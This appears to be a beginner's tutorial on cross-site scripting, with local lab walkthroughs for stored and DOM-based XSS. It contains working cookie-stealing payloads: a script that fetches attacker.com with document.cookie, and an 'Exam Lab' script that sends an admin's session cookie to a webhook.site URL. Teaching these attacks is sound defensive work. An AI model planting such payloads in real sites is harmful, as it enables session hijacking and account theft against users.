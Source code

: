 # 🔽 XSS Injection

## **Cross-Site Scripting (XSS) - Beginner's Guide**

Cross-Site Scripting (XSS) is a web security vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. In this guide, we'll explore the basics of XSS and provide insights into prevention techniques.

<figure><img src="https://blog.hubspot.com/hs-fs/hubfs/Google%20Drive%20Integration/draft%20-%20cross%20site%20scripting.png?width=650&#x26;name=draft%20-%20cross%20site%20scripting.png" alt=""><figcaption></figcaption></figure>

### **1. Understanding Cross-Site Scripting (XSS)**

#### **What is XSS?**

XSS occurs when an attacker injects malicious scripts into web pages viewed by others. These scripts can execute in the context of a user's browser, leading to unauthorized actions, data theft, or other malicious activities.

#### **How Does XSS Work?**

1. **User Input Handling:**
   * Web applications accept and display user inputs, such as in search bars or comment sections.
2. **Malicious Input:**
   * An attacker injects scripts (JavaScript) into user-provided input.
3. **Script Execution:**
   * When another user views the affected page, the injected script executes in their browser.
4. **Unauthorized Actions:**
   * The script can steal cookies, session tokens, or perform actions on behalf of the user.

### **2. Types of XSS**

<figure><img src="../../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

#### **Stored XSS:**

* The injected script is permanently stored on the target server and served to users who access the affected page.

```html
<!-- Malicious Comment -->
<script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

#### **Reflected XSS:**

* The injected script is part of the URL and gets reflected off a web server to the user.

```url
https://vulnerable-site.com/search?query=<script>alert("XSS")</script>
```

#### **DOM-based XSS:**

* The attack occurs entirely on the client side, manipulating the Document Object Model (DOM) of a web page.

```html
<!-- URL: https://vulnerable-site.com/page#<script>alert("DOM XSS")</script> -->
<script>
  // JavaScript on the page reads the fragment and executes the script
  window.location.hash.substr(1); 
</script>
```

## Labs:

### DOM Based&#x20;

<figure><img src="../../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

Consider a simple "add item" website that allows users to input text. Let's examine a potential vulnerability using an injected script:

```
<img src=x onerror="window.location.href='https://tcm-sec.com'">
```

* DOM-based XSS occurs when the client-side script modifies the DOM, leading to the execution of malicious code.
* In the given example, an `<img>` tag is used, and the `onerror` attribute is manipulated to execute JavaScript code.
* When the browser encounters this script, it attempts to load the image specified in the `src` attribute (`x` in this case). If an error occurs during loading (triggered intentionally by `onerror`), the script inside the `onerror` attribute is executed.
* The JavaScript payload in the `onerror` attribute redirects the user's browser to the specified URL (`https://tcm-sec.com`).
* This redirection could be replaced with more harmful actions, such as stealing user session cookies, defacing the website, or performing actions on behalf of the user without their consent

<figure><img src="../../../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (249).png" alt=""><figcaption><p>page is redirected </p></figcaption></figure>

### XSS - Stored Lab

Stored Cross-Site Scripting (XSS) is a serious web application vulnerability that allows attackers to inject malicious scripts that are then permanently stored and served to other users. In this section, we will explore a lab environment using Firefox Multi-Account Containers to simulate and understand the implications of Stored XSS.

* Download and install the [Multi-Account Containers](https://addons.mozilla.org/fr/firefox/addon/multi-account-containers/) add-on for Firefox.
* Open a separate container for each session to create isolated environments.

<figure><img src="../../../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

Open one page of the chal in each container to have two separate sessions

**HTML Injection Test:**

As a preliminary step, inject a simple HTML tag to test if the injected content is stored persistently.

```
<h1>test</h1>
```

<figure><img src="../../../../.gitbook/assets/image (250).png" alt=""><figcaption><p>injection html OK</p></figcaption></figure>

Observe that the injected HTML tag remains on the page after refreshing the container.

<figure><img src="../../../../.gitbook/assets/image (251).png" alt=""><figcaption><p>it's a stored !</p></figcaption></figure>

so now we can go and test out some more interesting stuff:

**JavaScript Execution Test:**

In a different container, we inject a JavaScript script to prompt a message.

```
<script>prompt(1)</script>
```

<figure><img src="../../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

Notice that the script executes, but upon submission, the page refreshes, indicating that the input is being rendered rather than executed.

and funny thing is that if we go on container 2 and refresh, we will have the prompt function executed and so will every user that loads the page:

<figure><img src="../../../../.gitbook/assets/image (254).png" alt=""><figcaption><p>the 2 are loading </p></figcaption></figure>

now let's simulate stealing sensitive data from a user:

**Simulating Cookie Theft:**

Download and install the Cookie Editor add-on for Firefox to facilitate the capture and manipulation of cookies.

<figure><img src="../../../../.gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>

In Container 2, inject a script to alert the user's cookie.

```
<script>alert(document.cookie)</script>
```

* Observe that the script executed in Container 2 triggers an alert with the user's cookie.
* This demonstrates how a malicious actor could potentially steal sensitive user data, such as session cookies, leading to unauthorized access.

<figure><img src="../../../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

### Exam Lab

In this lab, we will explore a scenario where an attacker aims to steal an admin's session cookie through Cross-Site Scripting (XSS). To simulate this, we'll open two containers in Firefox—one for normal browsing and another for interacting with an admin. The objective is to inject a malicious script that sends the admin's session cookie to a webhook site.

Open one container for regular browsing and another for simulating an admin interaction. Navigate to the URL `http://localhost/labs/x0x03_admin.php` in the admin container.

There are plenty of ways we can inject some code to steal a cookie, let's list a few:

Set up a webhook URL at `https://webhook.site/` to capture the stolen session cookie.

<figure><img src="../../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

```
<script>var i = new Image;i.src="https://webhook.site/c014X.X.X.X.X..."+document.cookie;</script>
```

<figure><img src="../../../../.gitbook/assets/image (258).png" alt=""><figcaption><p>add /? </p></figcaption></figure>

This script creates an image element (`<img>`) and sets its source to the webhook URL with the appended admin session cookie.

The `/` followed by `?` is used to denote the start of the query parameters in a URL. In this case, it's appending the `document.cookie` value as a query parameter to the URL.

Explanation:

1. `https://webhook.site/c014X.X.X.X.X.../` is the base URL of the webhook.
2. `?` signifies the beginning of the query parameters.
3. `+document.cookie` adds the value of the `document.cookie` property as a query parameter. The `+` here is used for string concatenation.

and when we refresh our admin page (or the admin interacts with our payload), we get the response in webhook:

<figure><img src="../../../../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>
